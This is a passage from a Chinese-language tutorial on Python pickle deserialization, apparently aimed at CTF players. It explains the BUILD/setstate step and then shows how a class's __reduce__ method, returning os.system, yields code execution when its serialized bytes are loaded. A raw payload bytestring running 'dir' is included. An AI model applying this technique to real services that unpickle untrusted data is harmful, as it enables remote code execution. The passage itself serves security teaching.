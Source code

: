 [![](assets/1705886719-593bb0243f91b8dce96e3da82fd893b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211124-3f4aaad0-b6cc-1.png)

> 从代码中可以看到，如果 inst 中拥有\_\_setstate\_\_方法，则会将 state 交给 setstate() 方法进行处理，否则就将 inst 中的内容，通过遍历的方法，将 state 的内容合并到 inst\_dict 字典中。

12、最后全部做完后，当前栈就剩下了完整的 B 实例，然后读取下一个。指令代表着 STOP，即反序列化结束。

# 漏洞产生 (**reduce**)

简单了解了 pickle 反序列化的大概原理和流程，下面就可以分析下漏洞产生的原理。在 CTF 比赛中，pickle 反序列化大多数都可以直接利用\_\_reduce\_\_方法，可以通过\_\_reduce\_\_构造恶意的字符串，从而在被反序列化的时候，导致\_\_reduce\_\_被执行，从而操作 RCE。我们以下面代码为例：

```bash
import os
import pickle
import pickletools

class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd
    def __reduce__(self):
        return (os.system,('dir',))

# x = B('123', 'password')
# payload=pickle.dumps(x)
# print(payload)
# pickletools.dis(payload)
pickle._loads(b'\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x03dir\x94\x85\x94R\x94.')
```